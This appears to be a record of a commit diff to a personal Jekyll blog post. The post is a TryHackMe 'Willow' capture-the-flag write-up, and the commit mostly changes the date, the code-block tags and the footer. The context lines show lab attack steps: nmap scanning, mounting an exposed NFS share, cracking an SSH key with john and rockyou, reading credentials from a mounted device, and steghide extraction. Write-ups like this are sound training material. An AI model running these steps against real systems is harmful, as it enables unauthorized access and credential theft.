

Before and after one commit to bvr0n/bvr0n.github.io, a Jekyll site: the page built from _posts/thm/2021-01-15-willow.md, in a window 1280 px wide and 1400 px high. Shown: the top 870 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
Update and rename 2020-11-08-willow.md to 2021-01-15-willow.md

````diff
--- a/_posts/thm/2020-11-08-willow.md
+++ b/_posts/thm/2021-01-15-willow.md
@@ -2,13 +2,13 @@
 title : Willow - Writeup
 ---
 
-_**Nov 08, 2020**_
+_**Jan 15, 2021**_
 
 [Willow](https://tryhackme.com/room/willow) Writeup
 
 ## Nmap Scan :
 
-```
+```sh
 bvr0n@kali:~/CTF/THM/Willow$ nmap -sC -sV 10.10.58.196
 PORT     STATE SERVICE VERSION
 22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
@@ -53,14 +53,14 @@
 
 ## RPC Enum :
 
-```
+```sh
 bvr0n@kali:~/CTF/THM/Willow$ sudo showmount -e 10.10.58.196
 [sudo] password for bvr0n:
 Export list for 10.10.58.196:
 /var/failsafe *
 ```
 Apparently we have a shared folder, Let's mount it :
-```
+```sh
 bvr0n@kali:~/CTF/THM/Willow$ sudo mount -t nfs 10.10.170.153:/var/failsafe /mnt/ewf/ -nolock
 bvr0n@kali:/mnt/ewf$ cat rsa_keys
 Public Key Pair: (23, 37627)
@@ -80,7 +80,7 @@
 
 After grabbing the `RSA_Private_KEY`, now all we need is the password ! CRACKING TIME.
 
-```
+```sh
 bvr0n@kali:~/CTF/THM/Willow$ /usr/share/john/ssh2john.py id_rsa > priv_rsa
 bvr0n@kali:~/CTF/THM/Willow$ sudo john priv_rsa --wordlist=/home/bvr0n/Documents/rockyou.txt
 [sudo] password for bvr0n:
@@ -93,7 +93,7 @@
 And we got the password for SSH, Let's login as `Willow`.
 
 In the home directory there is a image that contains the flag, Let's get it :
-```
+```sh
 willow@willow-tree:~$ cat user.jpg | base64
 bvr0n@kali:~/CTF/THM/Willow$ cat b64_image | base64 -d > user.jpg
 ```
@@ -102,7 +102,7 @@
 ## Internal Enum :
 
 Looks like we can mount as root without a password :
-```
+```sh
 willow@willow-tree:/mnt/creds$ sudo -l
 Matching Defaults entries for willow on willow-tree:
     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
@@ -112,7 +112,7 @@
 ```
 I checked the `/dev`, this is where filesystems show up, i noticed a pretty weird one :
 
-```
+```sh
 willow@willow-tree:/dev$ ls
 autofs           dri            kmsg                null    shm
 block            fb0            log                 port    snapshot
@@ -121,7 +121,7 @@
 console          fuse           mcelog              ptmx    stdin
 core             ******_******  mem                 p
 ```
-```
+```sh
 willow@willow-tree:/mnt$ sudo mount /dev/******_****** /mnt/creds/
 willow@willow-tree:/mnt$ cd /mnt/creds/
 willow@willow-tree:/mnt/creds$ cat creds.txt
@@ -132,19 +132,10 @@
 And we got ROOT.
 
 For the root flag, i struggled at first but apparently it was inside the image we retireved earlier -_-
-```
+```sh
 bvr0n@kali:~/CTF/THM/Willow$ steghide extract -sf user.jpg
 Enter passphrase:
 wrote extracted data to "root.txt".
 ```
 
-<br>
-best regards
-
-[bvr0n](https://github.com/bvr0n)
-
-
-<br>
-[back to main()](https://bvr0n.github.io/)
-
-<br>
+Enjoy.
````
